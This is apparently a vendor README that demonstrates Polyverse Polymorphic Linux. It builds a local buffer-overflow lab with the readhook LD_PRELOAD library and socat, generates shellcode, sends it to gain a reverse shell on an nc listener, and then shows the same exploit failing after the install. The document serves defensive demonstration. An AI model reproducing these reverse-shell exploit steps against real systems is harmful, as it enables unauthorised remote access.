 # Demonstration: Polyverse Polymorphic Linux
## Set up for a Reverse Shell
### (1) Start nc listening on port 5555 (Session-1)
```
nc -kl 5555
```
## Run a simple socat echo server under Readhook
### (2) Start with a clean alpine:3.7 (Session-2)
```
docker run --rm -it -p 8080:8080 alpine:3.7 sh
```
### (2) We'll need curl and wget
#### (2) Alpine
```
apk update && apk add curl socat wget
```
#### (2) CentOS
```
yum update -u && yum install -y curl nc socat wget
```
#### (2) Ubuntu
```
apt-get update -y && apt-get install -y curl netcat socat wget
```
### (2) Get readhook components
```
wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/v1.2.2/basehook.so
wget -q -O /tmp/fullhook.so https://github.com/polyverse/readhook/releases/download/v1.2.2/fullhook.so
```
### (2) Start socat with readhook in front of libc
socat -T600 TCP4-LISTEN:8080,reuseaddr SYSTEM:"/usr/bin/env LD_PRELOAD='/tmp/fullhook.so:/tmp/basehook.so' /bin/cat"
## Generate Shell-Code and Perform Exploit
### (3) Generate shell-code for the exploit (Session-3)
```
export shellCode=$(echo -n "xyzzxMAKELOADdocker.for.mac.localhost" | nc localhost 8080)
```
### (2) Re-start socat with minimal readhook in front of libc
```
socat -T600 TCP4-LISTEN:8080,reuseaddr SYSTEM:"/usr/bin/env LD_PRELOAD=/tmp/basehook.so /bin/cat"
```
### (3) Send shell-code to the OVERFLOW for a reverse shell
```
echo -n $shellCode | nc localhost 8080
```
### (1) Check that the overflow resulted in a remote shell
```
ls && whoami && exit
```
## Install Polyverse Polymorphic Linux
### (2) Add Polyverse as the preferred repository
```
curl https://repo.polyverse.io/install.sh | sh -s vZ2v3Bo4Kbnwj9pECrLsoGDDo
```
### (2) Replace standard packages with Polymorphic Linux
```
# (Execute the command given at the end of the previous step)
```
## Test Polyverse Polymorphic Linux
### (2) Re-start nc with minimal readhook
```
socat -T600 TCP4-LISTEN:8080,reuseaddr SYSTEM:"/usr/bin/env LD_PRELOAD=/tmp/basehook.so /bin/cat"
```
### (3) Try the shellCode with Polymorphic Linux
```
echo -n $shellCode | nc localhost 8080
```
### (1) Confirm that nobody phoned-home to the listener
### (2) Confirm that the server terminated abnormally
